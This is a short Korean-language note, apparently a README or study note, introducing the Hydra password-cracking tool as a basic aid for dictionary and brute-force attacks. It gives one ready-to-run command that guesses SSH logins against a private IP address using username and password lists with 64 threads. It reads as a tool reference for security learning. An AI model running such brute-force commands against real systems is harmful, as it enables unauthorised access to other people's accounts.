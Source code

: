# hydra
hydra는 사전대입공격, 무차별대입 공격을 쉽게하게 해주는 도구이다. 
가장 기초적인 bruteforce 공격 보조 도구라 할수있다.
``` bash
hydra -I -t 64 -T 64 -L ./user.txt -P ./test_pass.txt ssh://10.10.1.8 -v
```
